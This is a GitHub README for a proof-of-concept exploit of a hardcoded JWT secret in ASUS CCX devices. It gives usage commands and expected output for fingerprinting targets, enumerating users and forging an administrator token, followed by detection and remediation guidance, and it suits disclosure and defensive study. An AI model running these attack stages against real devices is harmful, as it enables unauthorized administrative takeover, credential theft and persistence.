

<div align="center">

# CVE-2026-114202

### ASUS CCX — Hardcoded JWT Secret Authentication Bypass


</div>

---

## Overview

ASUS CCX (Cloud Controller / Communication Exchange) devices ship with a hardcoded HS256 JWT signing secret embedded in firmware. Because the secret never changes between units and cannot be rotated by the administrator, any attacker who reverse-engineers or obtains the secret can forge tokens for any user — including administrator accounts — granting full unauthenticated API access to every CCX device in the wild.

| Field | Value |
|---|---|
| **CVE** | CVE-2026-114202 |
| **CVSS 3.1** | `10.0 Critical` — `AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H` |
| **CWE** | CWE-798 (Use of Hard-coded Credentials) |
| **Affected** | ASUS CCX all firmware versions prior to patch |
| **Auth Required** | None |
| **Disclosed** | 2026-11-18 |

---

## Vulnerability Details

CCX exposes a REST API authenticated via HS256-signed JWTs. The signing secret is a static string compiled into the firmware and identical across all units worldwide. The API does not implement:

- Secret rotation or per-device key derivation
- Token replay protection
- IP binding for issued tokens

An attacker who extracts the secret from any CCX firmware image (available publicly from ASUS support) can craft tokens for arbitrary user/role combinations and authenticate to **any CCX device** on the internet.

The PoC performs a 3-stage attack:
1. **Fingerprint** — confirm target is a CCX device and determine firmware version
2. **Discover** — enumerate valid usernames from the API
3. **Forge** — mint an HS256 JWT for the administrator role and obtain full API access

---

## Attack Flow



---

## PoC Usage

> **Warning:** Authorized testing and isolated lab environments only.

### Setup

```bash
pip install -r requirements.txt
# requirements: requests, pyjwt
```

### Stage 1 — Fingerprint

Confirm the target is a CCX device and retrieve version information:

```bash
python3 poc.py --target https://ccx.example.com --stage fingerprint
```

Expected output:
```
[*] target: https://ccx.example.com
[+] ASUS CCX detected
    model:   CCX-2000
    version: 3.1.4-build20260118
[*] firmware version vulnerable: YES
```

### Stage 2 — Discover

Enumerate accessible API endpoints and valid usernames:

```bash
python3 poc.py --target https://ccx.example.com --stage discover
```

Expected output:
```
[*] enumerating users via /api/users (unauthenticated list)
[+] found users: admin, operator, monitor
[*] enumerating endpoints...
[+] accessible endpoints: /api/config, /api/logs, /api/system, /api/users
```

### Stage 3 — Forge (full exploit)

Mint a forged administrator JWT and authenticate:

```bash
python3 poc.py --target https://ccx.example.com --stage forge --user admin

# Chain all 3 stages in one run
python3 poc.py --target https://ccx.example.com --stage all --user admin
```

Expected output:
```
[*] forging HS256 JWT for user=admin role=administrator
[+] token: eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4...
[*] authenticating with forged token...
    POST /api/auth/token  HTTP 200
[!] VULNERABLE — authenticated as administrator without credentials
[*] GET /api/system
    HTTP 200  {"hostname":"ccx-prod-01","uptime":...}
```

### Available flags

| Flag | Description |
|---|---|
| `--target URL` | Target CCX base URL (required) |
| `--stage fingerprint\|discover\|forge\|all` | Attack stage to run |
| `--user NAME` | Username to forge token for (default: `admin`) |
| `--role ROLE` | Role to embed in token (default: `administrator`) |
| `--proxy URL` | HTTP proxy for Burp Suite integration |
| `--no-verify` | Skip TLS certificate verification |

### Expected output — patched device

```
[*] target: https://ccx.example.com
[*] forging HS256 JWT for user=admin
[*] POST /api/auth/token  HTTP 401  Unauthorized
[+] NOT vulnerable — secret has been rotated or token rejected
```

---

## Detection

| Indicator | Notes |
|---|---|
| Auth token issued without prior credential exchange | No login attempt before API calls |
| JWT `alg: HS256` with known hardcoded secret | Decode token header with `python3 -c "import jwt; jwt.decode(...)"` |
| API calls from unexpected IP ranges | CCX does not bind tokens to source IP |
| `/api/config` or `/api/users` accessed with no prior session | Unauthenticated enumeration attempt |

---

## Impact

Full unauthenticated access to all CCX management APIs on every unpatched device worldwide. An attacker can:
- Read and modify device configuration
- Pivot to other network segments through CCX-managed tunnels
- Extract stored credentials and certificates
- Persist by creating new administrator accounts

---

## Remediation

Apply the ASUS CCX firmware patch that introduces per-device derived secrets.

| Action | Detail |
|---|---|
| Apply firmware patch | Download from ASUS security advisory |
| Rotate admin passwords | All stored passwords may be exposed |
| Restrict API access | Firewall CCX management port to management VLAN |
| Monitor auth logs | Alert on JWT authentication without prior credential step |

---

## References

- CVE Record: https://www.cve.org/CVERecord?id=CVE-2026-114202
- ASUS Security Advisory: https://www.asus.com/content/asus-product-security-advisory/

---

> **Disclaimer:** For authorized security research and controlled lab use only. MIT License.
